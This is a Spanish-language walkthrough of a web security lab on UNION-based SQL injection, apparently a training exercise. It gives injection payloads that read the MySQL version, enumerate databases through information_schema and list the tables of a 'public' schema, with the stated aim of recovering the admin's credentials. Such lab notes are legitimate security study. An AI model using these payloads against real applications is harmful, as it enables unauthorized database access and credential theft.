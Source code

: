 Sabiendo que es el campo 2 el que se puede inyectar probariamos ya diferentes cosas como por ejemplo listar la version...

```mysql
' union select NULL,@@version,NULL-- -
```

### Lab: SQL Injection UNION attack, retrieving data from other tables

Como el objetivo de esta otra practica es averiguar el user y password del usuario admin, haremos lo siguiente...

Sabemos que con esto podemos saber las `databases` que hay en `mysql`...

```mysql
' union select 1,schema_name from information_schema.schemata-- -
```

o

```mysql
' union select 1,group_concat(schema_name) from information_schema.schemata-- -
```

Pero si no fuera por que te lo limitara la pagina, se puede ir 1 por 1...

```mysql
' union select 1,schema_name from information_schema.schemata limit 1-- -
```

```mysql
' union select 1,schema_name from information_schema.schemata limit 0,1-- -
```

```mysql
' union select 1,schema_name from information_schema.schemata limit 1,1-- -
```

```mysql
' union select 1,schema_name from information_schema.schemata limit 3,1-- -
```

Y se van poniendo numeros sucesivamente dependiendo de la base de datos que quieras mostrar, para ello tendrias que ir probando varios numeros hasta que encuentres una interesante...

Con esto listamos la base de datos existentes sabiendo que hay 2 columnas...

```mysql
' union select schema_name,NULL from information_schema.schemata-- - 

#Listar bases de datos
```

Una vez sabiendo que y visualizando la bases de datos que nos aparecen veremos uno llamado `public` por lo que ahora veremos las tablas que se encuentran dentro de `public`...

```mysql
' union select table_name,NULL from information_schema.tables where table_schema='public'-- - 

#Listar tablas
```
